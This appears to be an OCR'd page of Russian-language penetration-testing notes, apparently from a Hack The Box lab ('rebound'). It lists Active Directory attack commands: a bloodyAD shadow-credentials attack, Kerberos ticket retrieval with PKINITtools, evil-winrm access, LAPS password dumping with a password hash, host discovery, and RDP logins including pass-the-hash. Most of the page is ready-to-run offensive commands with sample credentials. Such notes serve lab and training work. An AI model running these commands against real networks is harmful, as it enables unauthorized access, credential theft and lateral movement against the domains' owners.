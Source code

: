 ./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  add shadowCredentials winrm_svc 		(shadow credential)

 python3 PKINITtools/gettgtpkinit.py -cert-pem ipWe9rd5_cert.pem -key-pem ipWe9rd5_priv.pem rebound.htb/winrm_svc ipWe9rd5.ccache 	(получение билета керберос)

 export KRB5CCNAME=ipWe9rd5.ccache

 evil-winrm -i dc01.rebound.htb -r rebound.htb
 
 
 # Получение пароля LAPS Admin

	Юзер состоит в групе LAPS Admin
	
		https://github.com/n00py/LAPSDumper.git
    	
		$ python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local

  		В Виндовс Laps

		https://github.com/leoloobeek/LAPSToolkit.git
	
		Find-AdmPwdExtendedRights -Identity * (THMorg)
		runas /netonly /user:bk-admin "cmd.exe"
		Get-AdmPwdPassword -ComputerName Creds-Harvestin

	

# Обнаружение машин в сети

fping -ag 192.168.50.1/24 2>/dev/null 

# передача файлов по сети

https://steflan-security.com/shell-file-transfer-cheat-sheet/

# Подключение по РДП

rdesktop -u Administrator -p Admin123 -d ROOT.DC 192.168.50.200  

для машины в рабочей группе 

xfreerdp /v:[IP] /u:[USERNAME] /p:'[PASSWORD]' /d:[domain] /dynamic-resolution /drive:linux,/tmp

xfreerdp /v:192.168.50.200 /d:root.dc /u:administrator /p:Admin123

xfreerdp /v:192.168.50.200 /d:root.dc /u:Administrator /pth:hash_password (/p:hash??????)

xfreerdp /v:192.168.50.200 /d:root.dc /u:administrator /p:Password123 /sec:rdp  - если TLS не поддерживается

FreeRDP( установка sudo apt install freerdp2-x11), Vinagre (установка sudo apt install vinagre)

РДП из коммандной строки виндовс
mstsc /v:<адрес_компьютера>

